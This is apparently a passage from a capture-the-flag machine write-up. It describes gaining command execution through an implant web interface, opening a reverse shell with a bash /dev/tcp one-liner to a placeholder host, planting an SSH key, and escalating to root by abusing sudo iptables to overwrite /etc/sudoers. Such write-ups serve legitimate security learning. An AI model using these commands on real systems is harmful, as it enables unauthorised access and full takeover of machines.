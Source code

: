 ![NON](file-20250607004628224.png)
![NON](file-20250607004638755.png)

From the web interface, at the `/ImplantInteract` endpoint, we could create a new terminal and run commands inside the machine. Sending the command `whoami`, we could see that we were running as the `sergej` user.

![NON](file-20250607004812277.png)

Sending a reverse shell payload `bash -i >& /dev/tcp/<IP>/<LOCAL_PORT> 0>&1`, we could get a reverse shell as the `sergej` user.
![NON](file-20250607004856372.png)

In order to get a more stable shell, we upgraded our shell to a `SSH` one by adding our public key to the `~/.ssh/authorized_keys` file of the `sergej` user
![NON](file-20250607010513374.png)

Looking at the `sergej` user's permissions on `sudoers` with the command `sudo -l`, we could see that the user has permissions to run the commands `/usr/sbin/iptables` and `/usr/sbin/iptables-save` as the root user without a password.

Looking for ways to abuse this privilege, we came across a [Linux Privilege Escalation with iptables](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/) technique, which allows us to escalate our privileges to root by overwriting root owned files with the `iptables` command.

The article overwrote the `/etc/shadow` file with the contents of the `/etc/passwd` file with a modified `root` entry, effectively changing the root password to a known value, thus allowing the user to login as root without a password. But in our case, we kept receiving an permission error when trying to overwrite the `/etc/shadow` file, so we decided to overwrite the `/etc/sudoers` file instead, which could allow us to run any command as root without a password if we add the entry `sergej ALL=(ALL) NOPASSWD: ALL` to the file.

So, following the path from the article:

![NON](file-20250607011809271.png)
![NON](file-20250607011529614.png)

And now we have `root` privileges, we can spawn a root shell by running the command `sudo -i` or `sudo su`.
![NON](file-20250607011642085.png)
